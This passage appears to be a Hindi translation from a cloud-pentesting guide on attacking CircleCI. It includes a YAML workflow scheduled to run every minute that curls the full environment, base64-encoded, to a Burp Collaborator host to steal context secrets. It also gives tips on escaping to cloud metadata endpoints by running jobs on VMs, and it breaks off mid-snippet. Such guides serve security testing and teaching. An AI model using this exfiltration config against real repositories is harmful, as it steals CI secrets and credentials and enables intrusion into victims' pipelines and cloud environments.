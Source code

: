 ```yaml
workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
यदि आपके पास **वेब कंसोल तक पहुंच नहीं है** लेकिन आपके पास **रेपो तक पहुंच है** और आप जानते हैं कि CircleCI का उपयोग किया जा रहा है, तो आप बस **एक वर्कफ़्लो को संशोधित कर सकते हैं** जो **हर मिनट ट्रिगर होता है** और जो **गुप्त जानकारी को एक बाहरी पते पर भेजता है**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
बस एक नया `.circleci/config.yml` एक रेपो में बनाना **circleci बिल्ड को ट्रिगर करने के लिए पर्याप्त नहीं है**। आपको **इसे circleci कंसोल में एक प्रोजेक्ट के रूप में सक्षम करना होगा**।
{% endhint %}

#### क्लाउड में भागें

**CircleCI** आपको **अपने बिल्ड को उनके मशीनों या अपने खुद के मशीनों में चलाने का विकल्प देता है**।\
डिफ़ॉल्ट रूप से, उनके मशीन GCP में स्थित हैं, और आप प्रारंभ में कुछ भी प्रासंगिक नहीं पा सकेंगे। हालाँकि, यदि एक पीड़ित **अपने खुद के मशीनों (संभवतः, एक क्लाउड वातावरण में)** कार्य चला रहा है, तो आप एक **क्लाउड मेटाडेटा एंडपॉइंट पा सकते हैं जिसमें दिलचस्प जानकारी हो सकती है**।

ध्यान दें कि पिछले उदाहरणों में सब कुछ एक डॉकर कंटेनर के अंदर लॉन्च किया गया था, लेकिन आप **एक VM मशीन लॉन्च करने के लिए भी कह सकते हैं** (जिसमें विभिन्न क्लाउड अनुमतियाँ हो सकती हैं):
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
या यहां तक कि एक डॉकर कंटेनर जो एक दूरस्थ डॉकर सेवा तक पहुंच रखता है:
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
```